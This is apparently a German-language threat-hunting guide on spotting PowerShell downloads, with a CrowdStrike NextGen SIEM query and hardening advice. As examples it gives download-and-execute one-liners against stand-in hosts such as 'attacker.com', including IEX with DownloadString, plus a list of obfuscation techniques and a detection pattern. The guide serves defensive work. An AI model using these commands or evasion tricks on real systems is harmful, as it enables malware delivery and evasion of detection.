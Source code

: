 # Powershell Threat Hunting: Downloads erkennen mit NextGen SIEM

## Warum PowerShell für Angreifer interessant ist

PowerShell ist ein fester Bestandteil moderner Windows-Systeme und bietet durch .NET-Anbindung mächtige Möglichkeiten zur Automatisierung. Diese Eigenschaften machen es auch für Angreifer attraktiv:

- Auf jedem Windows-System vorhanden (kein zusätzlicher Code nötig)
- Direkter Zugriff auf Windows-APIs und Netzwerkressourcen
- Kann Code aus dem Speicher ausführen (*fileless execution*)
- Oft unzureichend überwacht oder eingeschränkt

**Living off the Land**-Taktiken nutzen PowerShell, um Angriffe unauffällig und ohne zusätzliche Tools durchzuführen.

---

## Warum nach PowerShell-Downloads suchen?
PowerShell wird häufig verwendet, um Dateien oder Skripte aus dem Internet zu laden – z. B. zur:

- Nachladung von Schadsoftware 
- Kommunikation mit Command-and-Control-Servern
- Umgehung traditioneller Sicherheitsmaßnahmen 

Einige Gründe für die proaktive Suche nach PowerShell-Downloads:

- Früherkennung von Angriffen im Initial Access oder Execution-Phase
- Erkennung von Fileless Malware

---

## Download via PowerShell

Angreifer nutzen verschiedene Techniken, um Inhalte via PowerShell herunterzuladen. 

### `Invoke-WebRequest` (IWR)
* Funktionalität: Dieses Cmdlet, verfügbar ab PowerShell Version 3, fungiert ähnlich wie `wget` oder `curl` unter Linux. Es sendet HTTP-, HTTPS- oder FTP-Anfragen an eine angegebene URL und kann die Antwort verarbeiten oder, mithilfe des Parameters `-OutFile`, direkt in eine Datei speichern. Es unterstützt komplexere Webinteraktionen wie Authentifizierung und benutzerdefinierte Header.
* Anwendungsfälle & Risiken: Legitim für Web-Scraping, Herunterladen von Ressourcen oder Interaktion mit APIs. Wird von Angreifern häufig zum Herunterladen von Payloads verwendet, oft in Kombination mit `-OutFile`, um die Datei auf der Festplatte zu speichern, oder die Ausgabe wird an `Invoke-Expression` (IEX) weitergeleitet, um eine dateilose Ausführung zu erreichen. `Invoke-WebRequest` kann relativ langsam sein und hat eine potenzielle Abhängigkeit von Internet Explorer-Komponenten.
  
* Sytaxbeispiel: 
```powershell
# Einfacher Download
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "C:\Users\Public\payload.exe"

# Oft in Angriffen gesehen (vereinfacht)
# IWR lädt Datei herunter, dann wird sie ausgeführt
Invoke-WebRequest -Uri "http://attacker.com/payload.exe" -OutFile "$env:TEMP\p.exe"; Start-Process "$env:TEMP\p.exe"
```

###  `System.Net.WebClient` (.DownloadFile /.DownloadString)
* Funktionalität: Nutzt die .NET Framework-Klasse `System.Net.WebClient`. Bietet Methoden wie `DownloadFile`, die eine Datei von einer URL herunterlädt und auf der Festplatte speichert, und `DownloadString`, die den Inhalt einer Ressource direkt als Zeichenkette zurückgibt. `DownloadString` wird häufig in Kombination mit `Invoke-Expression` für die dateilose Ausführung von Skripten verwendet.
* Anwendungsfälle & Risiken: Legitim für programmgesteuerte Dateidownloads in Skripten. Wird von Angreifern intensiv missbraucht, sowohl zum Herunterladen ausführbarer Payloads (`DownloadFile`)  als auch zur dateilosen Ausführung (`DownloadString` + `IEX`). Ist mit Server Core kompatibel.   

* Sytaxbeispiel: 
```powershell
# Download in Datei
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://example.com/payload.exe", "C:\Windows\Temp\payload.exe")

# Download String zur Ausführung
$payload = (New-Object System.Net.WebClient).DownloadString("http://attacker.com/malicious.ps1")
Invoke-Expression $payload

# Oft verkürzt / kombiniert:
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/malicious.ps1')
```

### `Start-BitsTransfer`
* Funktionalität: Verwendet den Background Intelligent Transfer Service (BITS), einen Windows-Dienst, der für asynchrone, gedrosselte und wiederaufnehmbare Dateiübertragungen konzipiert ist. Erfordert, dass der BITS-Dienst ausgeführt wird und das BitsTransfer-Modul importiert ist. Gut geeignet für große Dateien oder Hintergrundübertragungen.

* Anwendungsfälle & Risiken: Legitim für große Dateiübertragungen und Updates. Wird seltener für den initialen Zugriff durch Malware verwendet als IWR/WebClient, kann aber von Angreifern genutzt werden, um größere Werkzeuge, Payloads oder gestohlene Daten zu übertragen. Seine asynchrone Natur könnte zur Tarnung genutzt werden. Erfordert den BITS-Dienst; kann fehlschlagen, wenn der Dienst deaktiviert ist oder der Benutzer (abhängig von der Konfiguration) nicht angemeldet ist. 

* Syntaxbeispiel
```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source "[http://example.com/large_payload.zip](http://example.com/large_payload.zip)" -Destination "C:\Temp\large_payload.zip"
# Kann asynchron ausgeführt werden
Start-BitsTransfer -Source "http://..." -Destination "C:\..." -Asynchronous
```

## Verschleierungstechniken (MITRE ATT&CK T1027)
Angreifer verschleiern PowerShell-Befehle und -Skripte, um signaturbasierte Erkennungssysteme zu umgehen und die Analyse zu erschweren. Gängige Methoden umfassen:   

* Kodierung: Verwendung von Base64 (`-EncodedCommand`, `-e`, `-ec`), Hexadezimal oder ASCII zur Darstellung von Befehlen oder Skriptblöcken.   
* Zeichenkettenmanipulation: Verketten (`"Down" + "loadString"`), Neuanordnen (`"{1}{0}" -f 'String','Download'`) oder Ersetzen von Zeichen innerhalb von Zeichenketten, um bekannte Muster zu zerlegen.   
* Variablenverschleierung: Verwendung unklarer Variablennamen oder das schrittweise Zusammenbauen von Befehlen in Variablen.   
* Escape-Zeichen: Einsatz von Backticks (`) innerhalb von Zeichenketten oder Befehlen, um die Lesbarkeit zu beeinträchtigen.   
* Zufällige Groß-/Kleinschreibung: Mischen von Groß- und Kleinbuchstaben.   
* Leerraum/Kommentare: Einfügen unnötiger Leerzeichen oder Kommentare.   
* Befehlsaliase: Verwendung von Aliasen wie `IEX` für `Invoke-Expression` oder `IWR` für `Invoke-WebRequest`.   
* Umgebungsvariablen: Verstecken von Teilen des Codes in Umgebungsvariablen.   
* Typnamenverkürzung: Verwendung von `Net.WebClient` anstelle von `System.Net.WebClient`.

Für einige dieser Methoden haben wir eine separate Query erstellt, um gezielt nach Powershell Obfuscation zu suchen. 

## CrowdStrike NextGen SIEM Query
```
#event_simpleName=ProcessRollup2 event_platform=Win
| ImageFileName=/\\(powershell(_ise)?|pwsh)\.exe/i
| CommandLine=/Invoke\-WebRequest|Net\.WebClient|Start\-BitsTransfer/i
| regex("(?<URL>https?://[^'\"]+)", field=CommandLine)
| replace("https://", with="", field=Domain, as=vt_lookup)
| UrlBase:="https://www.virustotal.com/gui/domain/"
| format(format="[Virustotal](%s%s)", field=[UrlBase, vt_lookup], as=DomainLookup)
| table([DomainLookup, URL, ComputerName, UserName, CommandLine], limit=20000)
```

## Powershell Härtung implementieren
* Constrained Language Mode: Wo immer möglich, schränken Sie PowerShell auf den Constrained Language Mode ein. Dies begrenzt den Zugriff auf sensible Cmdlets,.NET-Typen und die Ausführung von beliebigem Code, was viele Angriffstechniken erschwert.   
* Just Enough Administration (JEA): Implementieren Sie JEA, um administrative Berechtigungen auf das absolut notwendige Minimum für bestimmte Rollen und Aufgaben zu beschränken. Dies reduziert die Auswirkungen, falls ein privilegiertes Konto kompromittiert wird.   
* Execution Policy: Setzen Sie die Ausführungsrichtlinie mindestens auf RemoteSigned oder AllSigned. Auch wenn dies keine undurchdringliche Sicherheitsbarriere darstellt, zwingt es Angreifer zur Verwendung von Bypass-Methoden (z.B. -ExecutionPolicy Bypass), deren Verwendung wiederum ein detektierbares Signal sein kann. Erzwingen Sie die Signierung für intern entwickelte Skripte.   
* Application Control: Nutzen Sie Lösungen wie AppLocker, um die Ausführung von PowerShell-Skripten auf autorisierte Benutzer, Systeme oder signierte Skripte zu beschränken. Das vollständige Blockieren von powershell.exe ist aufgrund seiner legitimen Verwendung und der Möglichkeit, die Engine auch ohne die EXE-Datei zu nutzen, oft nicht praktikabel oder effektiv.   
